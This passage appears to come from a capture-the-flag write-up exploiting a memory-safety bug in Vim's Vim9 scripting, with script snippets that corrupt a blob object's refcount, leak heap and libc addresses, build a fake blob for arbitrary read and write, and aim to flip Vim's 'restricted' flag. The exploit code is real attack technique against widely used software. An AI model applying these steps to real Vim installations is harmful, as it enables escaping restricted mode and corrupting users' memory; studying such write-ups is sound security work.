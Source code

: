 Now, let's try to overwrite an object with a lot of ~~`A`s~~ `\xff`s (the refcount has to be negative, otherwise it won't crash):
```vim
var blob_o: BlobClass = BlobClass.new()
Ref(blob_o)
var obj_replace: blob = 0zffffff...  # 0x38 times `ff`
```

If we debug this, we can see our `ff`s. Yay!

Without a leak we cannot do much, fortunately there is an easy way to get it: overwrite the refcount with something big so that it doesn't bother us, then reassign the blob field with a new blob et voilà.
```vim
var obj_replace: blob = 0z0000000000000000.3713000000000000.4141...
var blob_replace: blob = 0z41
blob_o.b = blob_replace
echo obj_replace[-0x8 :]
```

We can even do something better. Reassign the blob field with a blob of size `0x28`, the size of a `blob_T` struct, this way we can use that as our fake blob. Since the heap is not deterministic (because vim does stuffs), we still need to leak the blob `ga_data` field. We can do it using the `len` function since it just reads a `DWORD` from the blob object, indeed we already have (almost) arbitrary read. Almost because if the object is aligned such that the blob ref counter is 0 or a negative int value, the program will most likely crash trying to free a fake object. It turns out that we can leak the lower 32 bits of the `ga_data` pointer, but not the upper 32, but it doesn't matter, since we already have a heap leak and the upper 32 bits are the same.
```vim
var blob_replace: blob = 0z4141...
blob_o.b = blob_replace

var blob_address: number = BlobToNumber(obj_replace[-0x8 :])

SetBlobPointer(obj_replace, blob_address + 0x10)
var blob_data_address_low: number = and(len(blob_o.b), 0xffffffff)
var blob_data_address_high: number = blob_address >> 32
var blob_data_address: number = or(blob_data_address_low, blob_data_address_high << 32)
```

Perfect, now we can set the object's blob pointer to our fake blob and achieve arbitrary read and write:

```vim
SetValidBlob(blob_replace)
SetBlobPointer(obj_replace, blob_data_address)
if len(blob_o.b) != 0x1337
	echo "NO ARBITRARY BLOB"
	return
endif
```

Now we just have to scan the heap to leak libc, from that we can leak the binary and overwrite the `restricted` bit.
```vim
var libc_leak: number = -1
for i in range(blob_address - 0x10000, blob_address, 8)
	var maybe_libc: number = ReadQWORD(blob_replace, blob_o, i)
	if and(maybe_libc >> 40, 0xff) == 0x7f || and(maybe_libc >> 40, 0xff) == 0x7e
		if and(maybe_libc, 0xfff) == 0xc00
			libc_leak = maybe_libc
			break
		endif
	endif
endfor

var libc_address: number = libc_leak - 0x219c00
var stdout_ptr: number = libc_address + 0x218e38
```